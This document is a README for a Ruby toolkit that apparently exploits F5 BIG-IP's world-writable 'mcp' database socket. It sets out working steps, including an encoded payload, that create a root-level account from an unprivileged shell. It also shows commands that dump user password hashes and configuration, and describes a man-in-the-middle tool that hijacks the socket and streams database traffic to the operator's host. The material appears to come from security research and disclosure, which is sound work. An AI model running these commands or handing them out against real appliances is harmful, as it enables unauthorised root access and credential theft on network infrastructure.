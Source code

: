 This isn't really done or ready yet, but I wanted to get the code checked in.

This basically implements F5's database protocol, "mcp", which operates through
a UNIX domain socket. That means that you need a shell on the F5 device before
you can use any of these. You'll typically forward the output from a script
to `/var/run/mcp` using `socat`, then feed the response into `mcp-parser.rb`.
More details below.

A quick summary of the scripts:

* `mcp-getloot.rb` - Generates a message that will dump users and variables
* `mcp-privesc.rb` - Generates a message that will create a user account
* `mcp-parser.rb` - Parses mcp messages that arrive on stdin
* `mcp-mitm.rb` - Eavesdrop mcp messages on a target host (requires passwordless ssh to root to be configured)
* `mcp-builder.rb` - A library for building mcp messages (you don't need to use directly)
* `mcp-generateobjects.rb` - A tool to generate mcp-objects.txt (you shouldn't need this)

# What is mcp?

MCP is a proprietary (AFAICT) database used by F5 BigIP. It's accessed through
`/var/run/mcp`, a UNIX domain socket with 0777 permissions (ie, any user can
access it).

The protocol is TLV-style, which a whole bunch of types (over 41,000). They're
all listed in [mcp-objects.txt](/mcp-objects.txt).

I implemented a parser that you can find in [mcp-parser.rb](/mcp-parser.rb),
and you can find a bunch of different messages in
[mcp-parser-tests.rb](/mcp-parser-tests.rb).

I also created a builder, [mcp-builder.rb](/mcp-builder.rb), although it's not
really designed to be easy to use. We do have a pre-defined function that
creates an MCP packet that creates a root-level user account, which is pretty
cool. You can use `mcp-privesc.rb` to create that packet.

# Building and Sending MCP Messages

To communicate with MCP directly, you'll generally use `socat`. The code in
`mcp-builder.rb` can create packets, though isn't designed to be run directly.
The scripts you'll probably want to use directly are:

* `mcp-getloot.rb` - to get users and configuration settings
* `mcp-privesc.rb` - to add a new root-level account
* `mcp-parser.rb` - to parse the response (on stdin)

To use one of the query scripts, execute it and find a way to send the output
into the UNIX socket on the target. Here's an example where we gzip +
base64-encode the output from `mcp-privesc.rb`:

```
$ ruby ./mcp-privesc.rb blogtest MyFunPW | gzip | base64 -w0
Attempting to create a crypt-sha512 hash of the password
Writing an `mcp` message to stdout that'll create an account: blogtest / $6$vdznqfyc$q9LEJmhlDZK3HQY0L0WuiKfXaKJtQmOY7lIkMS/IxftTmZs.PdlYXxmxjRQ4f529gl13NsqWlZdd/eksunJT01
Send it to the target using: socat -t100 - UNIX-CONNECT:/var/run/mcp < mcpmessage.bin

H4sIAAAAAAAAA2NgYBBnQAICGgy8QIpfQJOBH0izM7AmpuRm5oFkkJVx54CVcajaMbBChSxR5KPA8oYCLGBaU4ANbBwXA0dSTn56SWpxiQA7RKcAB8yiaMecnFgg8yAWg3ZyC4LpjdxC6AbJnwSLcDCwOefn5ubnCcZDDOaWBItzM3DqJ2Xm6SclFmdwi4ClGLmFwVIpDEkqZiplKVV5hWmVySqFlj6uXrkZOS5R3sYegZEGPgbhpZneaRGJ3l4lgbn+keY5ntm+wfqeFWklIblRxXoBKTmRERW5FVlBgSZppkaW6TmGxn7FheE5USkp+qnZxaV5XiEGhmCnIXsoD+wRBgAyeb1ueQEAAA==
```

Then we can copy and paste it to an ssh session on the target, where it's sent
to the UNIX socket (note that we're doing this as a non-root user as a
demonstration that it's possible):

```
$ whoami
apache

$ echo -ne 'H4sIAAAAAAAAA2NgYBBnQAICGgy8QIpfQJOBH0izM7AmpuRm5oFkkJVx54CVcajaMbBChSxR5KPA8oYCLGBaU4ANbBwXA0dSTn56SWpxiQA7RKcAB8yiaMecnFgg8yAWg3ZyC4LpjdxC6AbJnwSLcDCwOefn5ubnCcZDDOaWBItzM3DqJ2Xm6SclFmdwi4ClGLmFwVIpDEkqZiplKVV5hWmVySqFlj6uXrkZOS5R3sYegZEGPgbhpZneaRGJ3l4lgbn+keY5ntm+wfqeFWklIblRxXoBKTmRERW5FVlBgSZppkaW6TmGxn7FheE5USkp+qnZxaV5XiEGhmCnIXsoD+wRBgAyeb1ueQEAAA==' | base64 -d | gunzip - | socat -t100 - UNIX-CONNECT:/var/run/mcp | gzip | base64 -w0
H4sIAB91UGMAA2NgYJBjQALcIQy8QEqMO5SBFcwPZ+AR0OCOAJKaYAUEVXNHgVRzCzIwAABM8W1YXAAAAA==

bash-4.2$ su blogtest
Password: 
[...]

[blogtest@localhost:NO LICENSE:Standalone] config # whoami
root
```

We can also parse the response we got using `mcp-parser.rb`:

```
$ echo -ne 'H4sIAB91UGMAA2NgYJBjQALcIQy8QEqMO5SBFcwPZ+AR0OCOAJKaYAUEVXNHgVRzCzIwAABM8W1YXAAAAA==' | base64 -d | gunzip - | ruby ./mcp-parser.rb 
result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = user_authenticated
 result_type (tag) = user_authenticated_name
result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = create
 result_type (tag) = userdb_entry
```

You can, of course, do it all as a single command; here how you can use
`mcp-getloot.rb`:

```
$ ruby ./mcp-getloot.rb | ssh root@10.0.0.162 socat -t100 - UNIX-CONNECT:/var/run/mcp | ruby ./mcp-parser.rb | head -n30
Writing an `mcp` message to stdout that'll query for interesting stuff
Send it to the target using: socat -t100 - UNIX-CONNECT:/var/run/mcp < mcpmessage.bin

query_reply (structure [949 bytes]):
 userdb_entry (structure [233 bytes]):
  userdb_entry_name (string [6 bytes]) = "root"
  trunk_virtual_mbr_transaction_id (ulong) = 0x00000001 (1)
  userdb_entry_partition_id (string [8 bytes]) = "Common"
  fw_analytics_settings_dns_collect_dst_i... (long) = 0xffffffff (4294967295)
  userdb_entry_is_system (ulong) = 0x00000001 (1)
  userdb_entry_oldpasswd (string [2 bytes]) = ""
  userdb_entry_shell (string [11 bytes]) = "/bin/bash"
  userdb_entry_gecos (string [6 bytes]) = "root"
  userdb_entry_is_crypted (ulong) = 0x00000001 (1)
  userdb_entry_passwd (string [100 bytes]) = "$6$UIHYzBX6$UClrSPt1o/G2meP27zBzRJnAjWEIkhNEQzqDYwn5gtnoKqFeGhnJveUUHGavaPU1FO9eif2pnADjDN/5YgMI3/"
  userdb_entry_description (string [2 bytes]) = ""
  userdb_entry_object_id (ulong) = 0x00002a70 (10864)
 userdb_entry (structure [251 bytes]):
  userdb_entry_name (string [7 bytes]) = "admin"
[...]
db_variable (structure [224 bytes]):
  db_variable_name (string [38 bytes]) = "platform.diskmonitor.freelast.vmdisk"
  db_variable_transaction_id (ulong) = 0x0000004b (75)
  db_variable_scf_config (string [7 bytes]) = "false"
  db_variable_maximum (string [2 bytes]) = ""
  db_variable_minimum (string [2 bytes]) = ""
  db_variable_data_type (string [9 bytes]) = "integer"
  db_variable_sync_type (string [18 bytes]) = "private_internal"
  db_variable_default (string [3 bytes]) = "0"
  db_variable_value (string [3 bytes]) = "0"
  db_variable_display_name (string [38 bytes]) = "Platform.DiskMonitor.FreeLast.vmdisk"
  db_variable_object_id (ulong) = 0x0000e705 (59141)
  db_variable_enumerated (array [6 bytes]): Array data: 000f00000000
```

# Connection Eavesdropping

I also wrote a tool to inspect/log database queries in real time -
[mcp-mitm.rb](/mcp-mitm.rb). This isn't an exploit, it's just an analysis tool
that requires a root login. Effectively, it moves `/var/run/mcp` and replaces
it with a socket that we control, then parses all the messages going through it.

To run it:

* Ensure the server isn't being used for anything important - this is somewhere between "destructive" and "interrupty" because we yoink the database socket (it does try to fix it after!)
* Ensure the F5 Big-IP host can connect back to you on any two ports (1234 and 1235 by default)
* Ensure you can `ssh root@<target>` with no password or other input (or edit the code and turn off `DO_SETUP`)

Pretty much any potential "damage" is fixed with a reboot, since it creates the
socket at boot, but you probably don't wanna do that on prod.

Anyway, execute with no args to get the usage, then fill in the important IP
addresses:

```
$ ruby ./mcp-mitm.rb
Usage: ruby ./mcp-mitm.rb <your ip> <target ip> [listen port 1] [listen port 2]
[...]

$ ruby ./mcp-mitm.rb 10.0.0.179 10.0.0.162

$ ruby ./mcp-mitm.rb 10.0.0.179 10.0.0.162
Configuration (edit the script to change, this is a PoC!):

Your IP: 10.0.0.179
Target IP: 10.0.0.162
Listening port 1: 1234
Listening port 2: 1235
SSH into the target to set things up: true
  (Make sure you can ssh into the host as root with no password)
  (Yes yes, I know it's a PoC!)
SSH'ing into the server to set things up
Ready!
```

If you wait around (or do stuff on the server), you'll see sessions:

```
Received session @ #<TCPSocket:0x000000000170d630> <--> #<TCPSocket:0x000000000170d658>

user_authenticated (structure [15 bytes]):
 user_authenticated_name (string [7 bytes]) = "admin"

start_transaction (structure [8 bytes]):
 start_transaction_load_type (ulong) = 0x00000000 (0)
[...]
```

Ctrl-c will stop it, and fix the socket:

```
^CSSH'ing into the server to fix things
Session 1 closed?
Ending thread
Ending thread
Traceback (most recent call last):
        3: from ./mcp-mitm.rb:149:in `<main>'
        2: from ./mcp-mitm.rb:149:in `loop'
        1: from ./mcp-mitm.rb:151:in `block in <main>'
./mcp-mitm.rb:151:in `accept': Interrupt
```

And that's it!
